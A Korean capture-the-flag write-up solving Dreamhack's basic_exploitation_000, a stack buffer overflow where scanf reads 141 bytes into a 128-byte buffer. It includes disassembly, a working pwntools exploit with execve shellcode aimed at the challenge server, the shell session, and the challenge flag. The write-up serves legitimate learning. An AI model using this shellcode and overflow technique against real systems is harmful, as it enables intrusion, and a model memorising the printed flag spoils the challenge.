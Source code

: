 ```c
 ⚡ root  ~/Downloads  cat basic_exploitation_000.c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];					// 128 Byte 크기의 문자열 변수 선언

    initialize();
    
    printf("buf = (%p)\n", buf);	// buf의 주소 출력
    scanf("%141s", buf);			// buf에 141 Byte 크기의 문자열을 입력받음

    return 0;
}
```

`buf` 의 크기는 `128 Byte` 밖에 안되는데, `scanf("%141s", buf)` 를 통해서 `141 Byte` 크기의 입력을 받기 때문에 버퍼 오버플로우가 발생합니다.

 
<br>
 

gdb로 어셈블리어를 봐보면

```bash
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x080485d9 <+0>:     push   ebp
   0x080485da <+1>:     mov    ebp,esp
   0x080485dc <+3>:     add    esp,0xffffff80
   0x080485df <+6>:     call   0x8048592 <initialize>			// initialize() 함수 호출
   0x080485e4 <+11>:    lea    eax,[ebp-0x80]					// eax = buf(ebp-128)
   0x080485e7 <+14>:    push   eax								// push eax
   0x080485e8 <+15>:    push   0x8048699						// push "buf = (%p)\n"
   0x080485ed <+20>:    call   0x80483f0 <printf@plt>			// printf("buf = (%p)\n", buf)
   0x080485f2 <+25>:    add    esp,0x8
   0x080485f5 <+28>:    lea    eax,[ebp-0x80]					// eax = buf(ebp-128)
   0x080485f8 <+31>:    push   eax								// push buf(ebp-128)
   0x080485f9 <+32>:    push   0x80486a5						// push "%141s"
   0x080485fe <+37>:    call   0x8048460 <__isoc99_scanf@plt>	// scanf(%141s", buf)
   0x08048603 <+42>:    add    esp,0x8
   0x08048606 <+45>:    mov    eax,0x0
   0x0804860b <+50>:    leave  
   0x0804860c <+51>:    ret    
End of assembler dump.
```

<br>

메모리 구조를 그려보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/61f6114c-4a24-4118-b1b5-1ff757333cbd/image.png">

* `buf` 의 주소는 `printf()` 로 출력을 해주기 때문에 따로 찾을 필요 없고, `shellcode` 는 `scanf()` 우회 쉘 코드인 `26 Byte` 쉘 코드를 사용하면 됩니다.

* 페이로드는
 
* `buf~EBP ← shellcode[26] + NOP[106]`

* `RET ← buf_address[4]`

* 로 구성해서 공격을 하면 될 거 같습니다.
 
<br> 

`pwntools` 로 익스플로잇 코드를 짜 보면

```python
from pwn import *

p = remote("host3.dreamhack.games", 12129)	# 원격 서버 접속

# scanf() 우회 shellcode
shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"

buf = int(p.recv()[7:17], 16)	# 출력 데이터인 buf = (0xffffcfb8)에서 0xffffcfb8 (index: 7 ~ 17)만 16진수로 buf에 저장

payload = shellcode				# payload = shellcode[26]
payload += b"\x90"*106			# payload = shellcode[26] + NOP[106]
payload += p32(buf)				# payload = shellcode[26] + NOP[106] + buf_address[4]

p.sendline(payload)				# payload 입력
p.interactive()	   				# user에게 입출력을 다시 돌려줌
```

<br>
 

익스플로잇 코드를 실행시켜보면
```python

 ⚡ root  ~/dreamhack  python exploit001.py
[+] Opening connection to host3.dreamhack.games on port 12129: Done
[*] Switching to interactive mode
$ ls
$ ls
basic_exploitation_000
flag
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}$ 
$ 
[*] Got EOF while reading in interactive
```

공격에 성공해서 쉘이 떴고 플래그를 출력하니 정상적으로 출력되었습니다.
